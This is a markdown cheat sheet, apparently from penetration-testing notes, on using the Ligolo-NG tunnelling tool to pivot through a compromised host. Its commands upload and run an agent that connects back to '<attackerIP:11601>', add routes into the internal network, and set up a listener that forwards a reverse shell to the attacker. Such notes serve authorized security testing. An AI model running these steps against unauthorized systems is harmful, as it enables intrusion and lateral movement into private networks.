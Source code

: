 # Ligolo-NG

## [Download](https://github.com/nicocha30/ligolo-ng)

## Usage
* Agent Setup
  - Upload agent to compromised host
  - Execute agent
  ```bash
  # Linux
  ./agent -connect <attackerIP:11601>
  ```
  ```powershell
  # Windows
  ./agent -connect <attackerIP:11601>
  ```
* Attacker Machine Setup
  - Create interface for Ligolo to use
  ```bash
  sudo ip tuntap add user <username> mode tun ligolo

  sudo ip link set ligolo up

  # Verify iface added
  ip addr show ligolo
  ```
* Start Ligolo-NG
  ```bash
  ligolo-ng-proxy -selfcert
  ```
* Run the agent on the pivot machine
  ```bash
  agent -connect <attacker IP:11601> -ignore-sert
  ```
  - Should see agent joined on the attacker machine
* Select Agent on Attacker machine
  ```bash
  session
  ```
* Add route on attacker machine
  ```bash
  sudo ip route add <pivot network> dev ligolo
  # Example: sudo ip route add 10.10.11.0/24 dev ligolo
  ```
* In the proxy interface, start the tunnel
  ```bash
  start
  ```
* Setup is done, you should be able to access the proxy environment. No proxychains, etc required

### Setup to access the pivot host (Pivot host will be unavailable when ligolo is running)
* Add special route with *magic* ip address
  ```bash
  sudo ip route add 240.0.0.1/32 dev ligolo
  ```
  - accesses 127.0.0.1 on the pivot box

### Setup for reverse shell
* In the proxy shell on the attack machine, add a listener
  ```bash
  listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
  ```
  - Adds a listener on the agent machine, port 30000 and forwards to us on port 10000

